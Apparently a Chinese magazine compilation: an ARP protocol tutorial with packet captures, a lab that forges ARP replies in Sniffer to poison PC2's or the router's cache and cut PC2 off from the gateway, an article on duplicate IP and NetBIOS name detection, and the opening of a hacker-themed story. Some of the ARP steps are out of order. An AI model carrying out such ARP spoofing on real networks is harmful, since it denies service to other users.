- 1. 当 PC1 要访问 PC2，这时 PC1 的 ARP 表是空的，即没有 PC2 的相关条目。所以为了产生 ARP 条目，PC1 要向网络中发送一个 ARP 请求广播。
- 2. PC2 和 PC3 都会收到这个广播。因为是广播，所以网络上的任何一个节点都要求对该帧进行进一步处理。于是 PC3 检查该帧的协议类型，发现是 806H（ARP），便把该帧的帧头去掉。检查其 ARP 头，发现是发向 192.168.0.33 的 ARP 报文而不是自己的，于是将该报文丢弃。
- 3. 而 PC2 收到这个帧后发现是广播，所以也会检查该帧的协议类型。发现是 806H（ARP），便把该帧的帧头去掉，露出 ARP 头。当发现该报文是发给自己的时，就再检查操作类型，发现是 1（请求），于是便读取该帧的发送者 MAC 和 IP，把它们作为 ARP 响应包的目的 MAC 和 IP 发送回去。

这就是为什么 ARP 请求是广播，而响应是单播的原因。如图 4，有没有发现这个帧的接收者 MAC 字段全为 0 呢？这是由于发送者不知道接收者的 MAC 地址，所以把这个字段留空，让接收者自己填写。

首先运行 Sniffer 软件并处于监听状态（具体使用方法可在网上下一个工作手册慢慢看，这里就不重复了），假设我们的计算机 PC1 的 IP 地址是 192.168.0.8，在 CMD 下执行命令：`ping 192.168.0.33`，该命令会通过 ICMP 协议发送 ICMP 数据包。为确保抓到 ARP 数据包，先在本地计算机上执行 `arp -d` 清除本地 ARP 缓存表。

如图 3、图 4，是我用 Sniffer 抓到的 ARP 包，这是从本机向路由器发起的一个 ARP 请求包。

现在我们来分析这两个 ARP 数据包。第一个字段 6 字节，值为 FF-FF-FF-FF-FF-FF，对应图 2 里的目的 MAC。这个全 F 的 MAC 是个什么地址呢？

我们把这个值换算成二进制就得到了 48 个 1，在网络地址规则中，一般遇到全 1 的都是广播地址，这里也不例外，它是一个二层的广播地址。

为什么是广播呢？文章开头说了，当 ARP 表里没有此次操作的目的主机所对应的 ARP 条目时（即目的主机 IP 已知但 MAC 地址未知），则会发起 ARP 查询。由于不知道对方的 MAC 地址，那么怎样才能发送信息到对方呢？为了保证目的主机能收到，所以只好用广播了。

但是在图 4 这里是一个单播 MAC 地址，为什么是单播呢？原因是这个包是一个 ARP 响应包。由于第一个是 PC1（00-14-2a-34-1c-6d）向 FF-FF-FF-FF-FF-FF 请求 192.168.0.33 这个 IP 对应的 MAC 地址，所以当拥有 192.168.0.33 这个 IP 的主机接收到这个广播 ARP 请求后，知道了 PC1（00-14-2a-34-1c-6d）请求自己的 MAC 地址，所以它可以直接向 PC1（00-14-2a-34-1c-6d）发送回单播 ARP 响应，这样就节省了不必要的浪费（广播是非常浪费资源的）。

第二字段 6 字节，值为 00-14-2a-34-1c-6d，这个 MAC 地址为发起该 ARP 的主机接口的 MAC 地址，即源 MAC 地址。这个 MAC 地址也就是我自己这台电脑（192.168.0.8）的 MAC 地址。

4、当 PC1 收到来自 PC2 的 ARP 单播响应帧时，首先检查该帧的目的 MAC 是不是自己。当发现匹配后就再检查协议类型，在发现是 ARP 协议后，于是去掉二层帧头，送到 ARP 层。ARP 协议发现目的 IP 地址是自己，于是进一步检查操作类型，发现是 2（响应），于是读出发送者 MAC 和 IP，把它们记录进 ARP 表。我们可以通过 `arp -a` 命令来查看，如图 5。



所以，执行一个本地的 PING 命令后，ARP 缓存就会存在一个目的 IP 的记录了。

注意：如果你的数据包是发送到不同网段的目的地，那么就一定存在一条网关的 IP—MAC 地址对应的记录，如图 6。



知道了 ARP 协议的作用，就能很清楚地知道，数据包的网内传输是依靠 ARP 协议，当然，也就是依赖 ARP 缓存。

要知道，ARP 协议的所有操作都是内核自动完成的，同其它的应用程序没有任何关系。ARP 协议只适用于同一子网络内，当我们试图连接另外一个子网的机器时，查看自己的 ARP 缓存只能看到本地网关的 IP—MAC 记录，如图 6。

那么 ARP 欺骗究竟是怎么产生的呢？从上面的分析可以看出，系统更新本地 ARP 缓存表需要两个必要条件：

- 1. 收到的是一个 ARP 响应包（即第 8 字段操作类型为 02）。
- 2. 收到的 ARP 响应包中的目的 MAC 是自己的。

至于更新的内容，是根据 ARP 响应包的内容来更新的，不管是否正确。正因为如此，才会让 ARP 欺骗畅通无阻。下面我们由 Sniffer 来完成这样一个欺骗过程。

## 四、实践体验

### 实验目的一：让 PC2 无法通过路由上网

### 方法 1、对 PC2 的 ARP 欺骗

在 Sniffer 中，用鼠标点出一个 ARP 响应包，如图 4，单击右键，选择“Send Current Frame”，会弹出如图 7 的窗口。

这是一个发送数据包的程序窗口，我们可以直接在里面修改，如图 8。

对比图 7、图 8，我们将目的 MAC 改为 PC2 的 MAC，源 MAC 改为 00-00-00-00-00-00，源 IP 为 192.168.0.1（c0-a8-00-01），接收者的 IP 为 192.168.0.33（c0-a8-00-21），这里接收者的 MAC 是多少并不重要，在目的 MAC 中已指定为 PC2 了。



在 PC2 的 CMD 中输入命令 `arp -a`，会发现网关 192.168.0.1 的条目，如图 9。这个 IP—MAC 对应记录就是我们刚才发送的 ARP 响应数据包了，由此达到了欺骗目的。



不过不要高兴得太早，现在你可能更多地看到的是如图 10 的画面，呵呵。



如果 PC2 上装有 ARP 防护软件，马上会有提示，所以这种方法现在一般都不起作用了。别急，我们再看看下面的方法。



### 方法 2、对路由器的 ARP 欺骗

方法 1 是发送数据给 PC2，告诉它一个假网关的 MAC，让它无法连接到网关，从而无法上网。但如果 PC2 有防 ARP 欺骗软件或绑定了网关的 MAC，这种方法就不行了。我们可以换一种思路来欺骗路由器，告诉它一个假的 PC2 的 MAC，同样可达到 PC2 与网关无法连接的目的，从而造成无法上网（除非在路由器端也绑定了 PC2 的 MAC 地址）。具体操作同方法 1，只不过 MAC 和 IP 地址不一样了。

下面是发送到网关的 ARP 欺骗包：具体含义是告诉网关 ROUTE（192.168.0.1=c0-a8-00-01），PC2（192.168.0.33=c0-a8-00-21）的 MAC 地址是 01-00-00-00-00-00，如图 11。

接着我在路由器的 ARP 映射表里查看到已更新的 MAC—IP 对应记录，如图 12。

现在在 PC2 计算机的 CMD 中执行命令 `ping 192.168.0.1`，会发现不通，但是在它的 ARP 缓存里仍保存着路由器 ROUTE 的 MAC—IP 正确记录。这是因为 ROUTE 到 PC2 的 ARP 数据包发送是正确的，没有欺骗；但是从 PC1 计算机不断发出的针对 PC2 的 ARP 欺骗包抢在 PC2 之前不断地发给路由器，导致路由器的 ARP 缓存表更新了错误的 PC2 的 MAC—IP 记录，从而达到了欺骗的目的。



### 实验目的二：让 PC2 与 PC3 无法连接



# 网络计算机重名检测机制探寻

从本文您可以学到：

- 1. 了解计算机启动时的 IP
- 2. 计算机名检测过程

局域网中的计算机为保证其能够正常运行，在系统启动时都要进行一系列的 IP、计算机名重名检测，这对于我们普通用户来说，是觉察不到的，但它却实际存在。通过抓包分析，计算机在每次启动时都必须发送一些检测数据包来进行检测，本文的目的就是将相关资料介绍给大家。

## 一、IP 地址重名的检测

网络在初始化时是通过发送一个称为免费 ARP 的数据包来确认 IP 是否已经使用。

**免费 ARP（有的叫伴随 ARP）：是指在 ARP“请求”报文中源 IP 和目的 IP 相同的请求报文，如图 1 所示。**

免费 ARP 可以有两个方面的作用：

- 1. 一个主机可以通过它来确定另一个主机是否设置了相同的 IP 地址。
- 2. 如果发送免费 ARP 的主机正好改变了硬件地址，那么这个分组就可以使其它主机高速缓存中旧的硬件地址进行相应的更新。如果主机收到某个 IP 地址的 ARP 请求，而且它已经在接收者的高速缓存中，那么就要用 ARP 请求中的发送端硬件地址（如以太网地址）对高速缓存中相应的内容进行更新。主机接收到任何 ARP 请求都要完成这个操作（ARP 请求是在网上广播的，因此每次发送 ARP 请求时网络上的所有主机都将要这样做）。

在发送免费 ARP 时必须对该网络接口上的每个 IP 地址发送。

一个 ARP Request，如图 1 所示；源 IP 和目的 IP 都是 c0 a8 00 2d，即 192.168.0.45，而且是三个免费 ARP 数据包，确保同一子网上所有计算机都能够收到，从而保证 IP 地址的唯一性，保证网络的畅通。



## 二、计算机 NETBIOS 名重名的检测

为方便网络用户用计算机名来互相访问，除了检测 IP 地址重复外，还要检测与之对应的计算机 NETBIOS 名是否重复。

当客户端计算机启动检测完 IP 地址无重复后，就广播它的名称（计算机 NETBIOS 名），当它成功广播自己，并没有其他人和它重名，客户端就登录成功。登记过程如下：

- 1. 在登录时，客户端在所有地方广播它自己和它的 NetBIOS 信息 6 到 10 次，确保其它网络成员收到信息。如图 2 所示：客户端 192.168.0.45 向整个网络 192.168.0.255 广播自己的 NETBIOS 信息 6 次。





- 2. 如果有客户端 A 已用此名，客户端 A 发布它自己的广播，包括它正在使用的名字，并请求登录的客户端停止所有登记的企图，在登录的客户端上出现网络上有重名的错误提示，在事件查看器中也可查到详细的信息，如图 3 所示。192.168.0.8 已经注册到“ADMIN-HBYCZJZY”这个名字（后面的 $ 是保留字），当客户端 192.168.0.15 再注册这个名字时就被拒绝了。
- 3. 如无其它客户端反对登记，请求登录的客户端完成登记过程。

通过以上两个完整的重名检测步骤，我们在进行网络计算机的互访时就畅通无阻了。

**编辑点评：**

通过上一篇详解 ARP 的文章，相信此文的内容已经很容易理解了。重名检测机制过程虽然简单，但作用可不小，不仅保证网络的正常联通，其实只要利用好，还可以为我们做很多事情，比如通知上线啊等等。

# 夜幕猫来临 II

# 笔记本要随身带

书房的门虚掩着，漏出的那些冷光夹杂着几点幽幽的蓝光，在客厅的地板上一闪一闪的。苏英泽背对着苏景，蓝色的屏幕光在他眼中化为 0 和 1 的跳动。他的指尖在键盘上流畅地来回滑动，额头渗出细密的汗珠，苏景则在他身后以平均每分钟 20 圈的速度到处乱转，像念着咒语的老巫婆一样不断地催促他。

过了很久，苏英泽才转过椅子告诉她已经没问题了，他抬头的时候视线不自觉闪过了苏景而投向门外：“今天……还去论坛？”

“当然——怎么了？”苏景熟练地抽开椅子坐到电脑前，若无其事地打开网页。

苏英泽简单地“哦”了一声，转身去开门，但苏景的声音很快从他身后追上来：“说吧，到底怎么了。”

“嗯……被追踪了……”苏英泽握着门把手，转了一下，突然觉得它变重了。

“啊……放心吧，不会被发现的。”屏幕的蓝光在苏景脸上闪烁着，她懒散的语气简直像是在告诉他，今晚夜宵喝粥。

看着苏景的背影，苏英泽张了张口，最后一声“嗯”揉成一阵叹息。

别墅的阳台正对着柳湖，苏英泽俯身倚在栏杆上望着湖水发呆。泛着白光的湖面像一个巨大的电影屏幕，放映着一些尘封的记忆。

屏幕里，苏景抱着苏英泽泣不成声。

屏幕里，苏景笑着告诉苏英泽：“我会好好活下去，和哥哥一起。”

屏幕里，苏景讨好地替苏英泽揉着肩说：“我想当网络侦探。”

一切的一切渐渐变成了令人混乱的 0 和 1，然后变得错乱模糊，就像一桶装满色彩的颜料被一只无形的手搅得混沌不堪。画面开始燃烧，熊熊的火光吞噬着一切。突然，一声爆炸打破了这一切。

苏英泽打了个寒战，顿时惊醒过来。左手边的口袋正在激烈地震动，幽蓝的屏幕光在口袋里不停地闪动，他皱了皱眉：“Hello？”

